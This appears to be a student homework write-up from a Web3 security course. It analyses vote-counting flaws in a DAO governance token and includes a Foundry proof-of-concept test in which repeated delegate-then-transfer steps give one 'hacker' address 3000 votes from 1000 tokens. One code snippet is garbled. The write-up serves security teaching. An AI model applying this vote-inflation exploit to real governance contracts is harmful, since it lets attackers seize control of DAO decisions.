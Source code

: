 # Web3-Security-Dev-Batch-1-HW W2

## Vulnerability Analysis

#### 1. Balance account for voting power

token balance should not account for voting power, can use `ERC20Votes.sol` for better checkpoints implementations, `ERC20Votes.sol` extension keeps a history (checkpoints) of each account's vote power, the downside is that it
requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked, and to keep in mind is that voting is usually handled by governance contracts.

ps: also it save more gas, can vote without spending gas, because the delegatee is using voting on their behalf

`ERC20Votes.sol` source : <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Votes.sol>

```sh
function _delegate uint256 _addrBalance = balanceOf(_addr);
```

#### 2. The votes getter function didn't check the availability of checkpoints

`getVotes` function doesn't check the availability of checkpoints. This means that vote powers can still remain transferable, even after member has delegated to another user and transferred tokens to other members

## POC

* Hacker control `alice` account to delegates vote power to himself, so he can create a proposal or vote on a proposal
* After delegation completed, transfer 1000 tokens to other dao member (bob, Carol), repeat the same process
* Control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
* Finish all the delegations & transfer tokens to hacker himself
* Now hacker has 3000 vTokens and also 1000 vTokens

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "contracts/hack/governance/DaoToken.sol";

contract exploitTest is Test {
 DaoToken daoToken;
 address public owner = address(0);
 address public hacker =address(1337);

 address public alice= address(1);
 address public bob = address(2);
 address public carol = address(3);

 function setUp() public {
  vm.startPrank(owner);
  daoToken = new DaoToken();
  daoToken.mint(alice, 1000);
  vm.stopPrank();
  }

 function testExploit() public {
    vm.startPrank(alice);
    //hacker control alice account to delegates vote power to himself, so he can create a proposal or vote on a proposal
    daoToken.delegate(hacker);
    daoToken.getVotes(alice);
    //transfer 1000 tokens to other dao member (bob, Carol)
    daoToken.transfer(bob, 1000);
    vm.startPrank(bob);
    // control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
    daoToken.delegate(hacker);
    daoToken.transfer(carol, 1000);

    vm.startPrank(carol);
    daoToken.delegate(hacker);


    // now hacker should has 3000 votes, hacker also wanna transfer 1000 tokens to himself
    daoToken.transfer(hacker, 1000);
    vm.stopPrank();

 uint hacker_vote = daoToken.getVotes(hacker);
    console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

 uint hacker_balance= daoToken.balanceOf(hacker);
    console.log("Hacker's daoToken after the attack: %s: ", hacker_balance);

 assertEq(hacker_vote , 3000);
 assertEq(hacker_balance, 1000);
    }

}
```

## Group Assignments
